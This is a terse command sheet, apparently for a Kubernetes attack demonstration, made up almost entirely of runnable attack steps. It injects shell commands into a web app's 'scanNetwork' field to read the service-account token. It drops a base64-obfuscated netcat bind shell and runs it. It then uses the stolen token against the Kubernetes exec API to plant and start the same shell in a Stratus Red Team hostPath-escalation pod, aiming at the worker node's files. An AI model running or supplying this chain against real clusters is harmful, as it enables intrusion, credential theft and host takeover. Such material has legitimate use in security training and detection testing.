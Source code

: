 kubectl apply -f .

kubectl get pods -A -w

export DEMO_POD=

kubectl port-forward $DEMO_POD -n dev 3000:8080

kubectl port-forward $DEMO_POD -n dev 9999:9999

127.0.0.1

; cat ../var/run/secrets/kubernetes.io/serviceaccount/token

curl --path-as-is -kis -X 'POST' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-binary 'ip=; echo cm0gLWYgL3RtcC9mOyBta2ZpZm8gL3RtcC9mOyBjYXQgL3RtcC9mIHwgL2Jpbi9zaCAtaSAyPiYxIHwgbmMgLWxwIDk5OTkgPiAvdG1wL2Y | base64 -d | tee /tmp/rev.sh; sh /tmp/rev.sh' \
    'http://localhost:3000/scanNetwork' &

nc 127.0.0.1 9999

script -qc /bin/bash /dev/null

APISERVER=https://kubernetes.default.svc \
SERVICEACCOUNT=/var/run/secrets/kubernetes.io/serviceaccount \
NAMESPACE=$(cat ${SERVICEACCOUNT}/namespace) \
TOKEN=$(cat ${SERVICEACCOUNT}/token) \
CACERT=${SERVICEACCOUNT}/ca.crt \

## Deploy Stratus Red Team detonation

curl -L -O https://github.com/DataDog/stratus-red-team/releases/download/v2.17.0/stratus-red-team_Linux_arm64.tar.gz
tar -xf stratus-red-team_Linux_arm64.tar.gz
./stratus detonate k8s.privilege-escalation.hostpath-volume


export STRATUS_POD=k8s.privilege-escalation.hostpath-volume
export STRATUS_NS=

curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET -s "${APISERVER}/api/v1/namespaces/$STRATUS_NS/pods" | grep security

curl --cacert ${CACERT} \
     --header "Authorization: Bearer ${TOKEN}" \
     -X GET "${APISERVER}/api/v1/namespaces/$STRATUS_NS/pods/$STRATUS_POD/exec?command=sh&command=-c&command=echo%20cm0gLXJmIC90bXAveDsgbWtmaWZvIC90bXAveDsgY2F0IC90bXAveCB8IC9iaW4vc2ggLWkgMj4mMSB8IG5jIC1scCA5OTk5ID4gL3RtcC94%20|%20base64%20-d%20|tee%20/tmp/rev.sh&tty=false&stdin=true&stderr=true&stdout=true" \
     -s \
     -H 'Sec-WebSocket-Key: SGVsbG8sIHdvcmxkIQ==' \
     -H 'Sec-WebSocket-Version: 13' \
     -H 'connection: upgrade' \
     -H 'upgrade: websocket' \
     --http1.1

curl --cacert ${CACERT} \
     --header "Authorization: Bearer ${TOKEN}" \
     -X GET "${APISERVER}/api/v1/namespaces/$STRATUS_NS/pods/$STRATUS_POD/exec?command=sh&command=-c&command=/bin/sh%20/tmp/rev.sh&tty=false&stdin=true&stderr=true&stdout=true" \
     -s \
     -H 'Sec-WebSocket-Key: SGVsbG8sIHdvcmxkIQ==' \
     -H 'Sec-WebSocket-Version: 13' \
     -H 'connection: upgrade' \
     -H 'upgrade: websocket' \
     --http1.1 \
     &

curl --cacert ${CACERT} \
     --header "Authorization: Bearer ${TOKEN}" \
     -X GET \
     -s \
     "${APISERVER}/api/v1/namespaces/$STRATUS_NS/pods/$STRATUS_POD" \
     | grep ip

nc $POD_IP 9999

### Read Hosts files since we are on a Worker Node and have the hostPath mount


